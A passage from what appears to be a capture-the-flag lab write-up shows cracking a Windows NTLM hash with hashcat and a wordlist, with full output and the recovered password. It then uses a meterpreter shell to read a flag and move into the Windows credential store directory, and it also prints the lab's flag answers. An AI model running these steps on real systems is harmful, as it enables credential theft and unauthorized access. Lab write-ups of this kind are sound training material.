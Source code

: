 `echo "ffb43f0de35be4d9917ac0cc8ad57f8d" > Jon.hash`

`hashcat -m 1000 -a 0 Jon.hash /usr/share/wordlists/rockyou.txt`

> ffb43f0de35be4d9917ac0cc8ad57f8d:alqfna22        
> 
> Session..........: hashcat
> 
> Status...........: Cracked
> 
> Hash.Name........: NTLM
> 
> Hash.Target......: ffb43f0de35be4d9917ac0cc8ad57f8d
> 
> Time.Started.....: Mon Aug  1 21:27:06 2022 (3 secs)
> 
> Time.Estimated...: Mon Aug  1 21:27:09 2022 (0 secs)
> 
> Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
> 
> Guess.Queue......: 1/1 (100.00%)
> 
> Speed.#1.........:  3879.1 kH/s (0.20ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
> 
> Recovered........: 1/1 (100.00%) Digests
> 
> Progress.........: 10201088/14344384 (71.12%)
> 
> Rejected.........: 0/10201088 (0.00%)
> 
> Restore.Point....: 10199040/14344384 (71.10%)
> 
> Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
> 
> Candidates.#1....: alsina521 -> alphasanag

=> alqfna22


### Task 5 :

#### 1) This flag can be found at the system root.

`meterpreter > shell`

`dir C:\` => C:\flag1.txt

`C:\Windows\system32>type C:\flag1.txt`

=> flag{access_the_machine}

#### 2) This flag can be found at the location where passwords are stored within Windows.

`cd C:\windows\system32\config`
  